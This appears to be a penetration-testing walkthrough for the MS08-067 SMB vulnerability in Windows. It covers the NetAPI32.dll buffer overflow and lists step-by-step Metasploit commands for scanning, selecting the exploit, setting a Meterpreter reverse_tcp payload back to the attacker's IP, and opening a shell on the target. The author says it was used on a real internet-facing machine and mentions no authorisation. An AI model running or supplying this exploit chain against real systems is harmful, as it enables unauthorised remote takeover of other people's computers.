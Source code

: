 penetration test with Metasploit to SMB protocol in machine running Windows Operating System. 

This test done in 2018 on the windows machine located on internet in the real world and gains the full control of the windows command prompt.

Scenario:

(Good old MS08_067 would be a good place to start)

Description: The servers of Microsoft Windows provide support for sharing resources, such as files and print services over a network. This service is vulnerable to remote code execution, and NetAPI32.dll is the cause of this vulnerability.

While windows process a directory traversal (maker) character sequence in path names, there is an error generated in NetAPI32.dll. The vulnerability could be exploited by corrupting stack memory. An example would be sending RPC requests that contain specially crafted (made) path names to the server service component(SRVSVC). The result cause buffer overflow in target memory and finally full access to the command shell of the target machine.

First, identify that the target Windows is vulnerable to MS08-067 or not. Open your terminal and enter the following Nmap command: 
  
  nmap -p445 --script smb-vuln-ms08-067

A)Find IP address of each machine with "ifconfig" in Backtrack and in Windows using "ipconfig".

B)In Backtrack/Kali terminal: 

  1.msfconsole 

  2.use exploit/windows/smb/ms08_067_netapi

Here we are able to see the options of "SMB" exploit by typing this command: 

  3.options 

  4.set rhosts <Target_IP>

C)In the next step we need to set up a listener to handle reverse connection from our exploit(if it's successfully triggered):

  1.set payload windows/meterpreter/reverse_tcp

  2.set lhost <Backtrack_IP>

  3.exploit

Note) during the attack, we are able to trace the exploitation step by step through the wireshark.

After watching "session 1 is open" you succeed to enter the target machine. Now you are in the shell of the target and be able to create/change files and folders.

To exit from "Meterpreter" environment you can type "quit".
